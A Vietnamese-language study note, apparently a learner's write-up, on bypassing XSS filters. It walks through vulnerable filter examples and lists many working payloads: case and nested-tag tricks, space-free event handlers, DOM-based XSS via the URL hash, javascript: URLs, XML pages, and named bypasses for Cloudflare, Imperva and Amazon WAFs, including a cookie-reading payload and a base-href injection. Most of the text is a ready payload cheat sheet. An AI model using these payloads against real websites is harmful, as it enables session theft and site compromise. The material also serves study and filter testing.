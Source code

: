 ### Một số cách bypass XSS filter

- Bình thường với một lập trình viên hiện tại sẽ được cho tìm hiểu về một sỗ lỗ hổng tiêu biểu hay gặp đặc biệt là XSS, nên bạn sx thường xuyên gặp những trang web filter để chống lại XSS.


1. Filter thẻ :
- Vì thẻ javascript và các thẻ trong html là nguyên nhân chính gây ra XSS nên việc filter thẻ trong đầu vào của user là cần thiết ạ:<script

Ví dụ :
![Alt text](image-5.png)
- Đoạn code php này sẽ lấy name từ method GET và đưa vào hàm filter trước khi in ra Hello + name
- Hàm filter đã lại bỏ tất cả <script có chứa trong input và thay thế bằng ''
- Một hướng bypass đơn giản là thay script bằng  <SCRIPT hoặc <ScRiPt, và rất nhiều các thẻ HTML có thể thực thi javscript khác,...
                                        <SCRIPT>alert(1)</SCRIPT>

Đây là kết quả:
![Alt text](image-6.png)

2. Filter thẻ (case insensitive)
- Giống như ở trên nhưng mà trường hợp này sẽ không phân biệt chữ hoa chữ thường ạ.

Ví dụ :
![Alt text](image-7.png)

- Câu lệnh regex /<script/i được sử dụng để tìm kiếm chuỗi có chứa từ "<script" (không phân biệt chữ hoa chữ thường). Đây là một mẫu regex đơn giản với một số thành phần cụ thể:

+ /<script: Bắt đầu với ký tự <script.
+ /i: Ký tự này ở cuối biểu thức là một cờ (flag) để bật chế độ không phân biệt chữ hoa chữ thường.

- Một hướng bypass đơn giản với payload :
                                        <scrip<SCRIPTt>alert(1)</script>
- giải thích bởi vì khi match thấy <SCRIPT là sẽ filter thành '' nên em sẽ lồng như này sau khi filter sẽ trở thành 
                                        <script>alert(1)</script>
Và kết quả em được là :

![alt text](image-9.png)

- Hoặc em sẽ không cần dùng thẻ . Có rất nhiều thẻ HTML khác có thể thực thi script ( trên payload all the things ạ) như là:
![alt text](image-10.png)

- Ngoài ra mình có thể chèn thẻ khác không có trong định nghĩa tùy theo hoạt động của browser ạ hoặc một số version của browser ạ
![alt text](image-11.png)

- ![alt text](image-12.png)

3. Filter kí tự space

Ví dụ: 
![alt text](image-13.png)
- đoạn code này sẽ filter kí tự space và <script cả hoa và thường :
- Nên một hướng bypass nó sẽ là :
                                        <img/onerror='alert(1)'src=a>

![alt text](image-14.png)




4. Filter kí tự ‘, “, `

Ví dụ: 
![alt text](image-15.png)
- Đoạn code này sẽ filter kí tự <script và các kí tự ‘, “, ` để tránh dùng javascript
- Hướng bypass của nó sẽ là :
![alt text](image-16.png)
- Và có kết quả là :
![alt text](image-17.png)

5. Filter Script code
![alt text](image-18.png)
- Đoạn code trên sẽ filter chữ cookie để tránh hacker lấy được cookie của nạn nhân
- Bypass: Dùng Unicode character

![alt text](image-19.png)

Hoặc tạo chuỗi động (các payload dưới đây để bypass filter cụm ‘alert’):
![alt text](image-20.png)
- Sử dụng eval để biến nó thành mã ạ:<


6. Sanitize kí tự quote, doublequote trong string
![alt text](image-21.png)

- phát hiện kí tự double quote và sanitize bằng cách thêm dấu \ phía trước để tránh nó hoạt động ạ.

- Bypass bằng \”, kí tự \ đầu tiên sẽ triệt tiêu hiệu quả của dấu \ được chèn vào, nên “ vẫn có hiệu lực để unquote string.
![alt text](image-22.png)

7. Limit input length
- Đây là một cách mà người viết mã hạn chế tối thiểu đầu vào của hacker.
![alt text](image-23.png)

- Nhìn sơ qua code thì em thấy sever chỉ lấy 42 kí tự từ chuỗi nhập vào của người dùng ạ

Bypass: Chuyển Reflected XSS thành DOM based XSS.

![alt text](image-24.png)

- Hoặc khi server có nhiều trường bị lỗi XSS, ta sẽ dùng kĩ thuật multi injection:
![alt text](image-25.png)

- Trong đó /* */ là cách để comment trong javascript. Kĩ thuật multi injection cũng được dùng để bypass các bộ lọc khác bằng cách chia nhỏ payload ra thành nhiều phần.


8. XSS xảy ra trong chuỗi ký tự
                                        <script>var q="";alert(1)//"</script>

9. XSS được thiết lập chỉ bởi URL (chẳng hạn như khi giá trị đầu vào nhập trực tiếp vào phần href của thẻ a)
                                        <a href="javascript:alert(1)">Link</a>
10. 
                                        <div>`-alert(1)</script><script>`</div>
                                        <div>`-alert(1)</script><script>`</div>
11. Nếu có một hoạt động chuỗi(giống với mục 1,2,3,4)
- Khi một số chuỗi bị xóa hoặc thay thế, nó không thể bị chặn nếu chuỗi được đặt ở giữa.
                                        <svg o<script>nload=alert(1)>
                                          ↓
                                        <svg onload=alert(1)>

12. document.write()XSS dựa trên DOM không phải là chuỗi yêu cầu
                                        https://vulnerabledoma.in/bypass/dom_innerhtml#%3Cimg%20src=x%20onerror=alert(1)%3E
<body>
<script>
hash=location.hash.slice(1);
document.body.innerHTML=decodeURIComponent(hash);
</script>
</body>

                                        https://vulnerabledoma.in/bypass/dom_redirect#javascript:alert(1)
<script>
location.href=decodeURIComponent(location.hash.slice(1));
</script>

13. XSS trong các trang XML
https://vulnerabledoma.in/bypass/xml?q=%3Cscript%20xmlns=%22http://www.w3.org/1999/xhtml%22%3Ealert(1)%3C/script%3E
<?xml version="1.0"?><html><script xmlns="http://www.w3.org/1999/xhtml">alert(1)</script></html>

Ngoài ra còn rất nhiều kiểu filter XSS khác nhau do các dev có tư duy filter riêng của mình, em có tìm được 2 trang có đầy đủ hầu hết các kiểu bypass ạ:3

# https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet#xss-auditor
# https://github.com/masatokinugawa/filterbypass/wiki/Browser’s-XSS-Filter-Bypass-Cheat-Sheet
Và cả trên payload all the thing nữa ạ.




## Một số cách dị em đọc được trên trang NhatTruong Blog ạ:<
- Cloudflare XSS Bypass

          <Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ=="))>

          <img src=x onVector=X-Vector onerror=alert(1)>
- XXS Bypass Imperva WAF

           (Z("onerror="a=console,a.log`${cookie}`"
- Bypass WAF Amazon

           <a/+/OnMoUsEOVEr+=+(confirm)(document.domain)>
- Crlf injection to bypass javascript: Đang bị bờ lách lít

            java%0d%0ascript%0d%0a:alert(0)
- Trong trường hợp svg onload= bị filter, %0d sẽ đóng vai trò dấu ngăn cách và thỉnh thoảng cũng phá được waf :v.) %0a %0c %09 %00 cũng hay được sử dụng lắm nhé

            <svg%0donload=prompt(1)>
- Cách này bt không có gì :v

            <input onfocus=alert(0) autofocus>
- The use of \\ will break out of the quote inside a script tag

-            \\"-alert(0);//
-  The WAF blacklisted alert(0), prompt(0), but failed to filter confirm(1) aswell as onmouseenter=. Onmouseneter does the same as onmouseover= but a lot of devs seem to not know this (not sure why) and fail to blacklist it.

              "onmouseenter=confirm(1)>
- HTML Injection?

               <base href=//yoursite.com>

               %uff1cscript%uff1ealert(1)%uff1c/script%uff1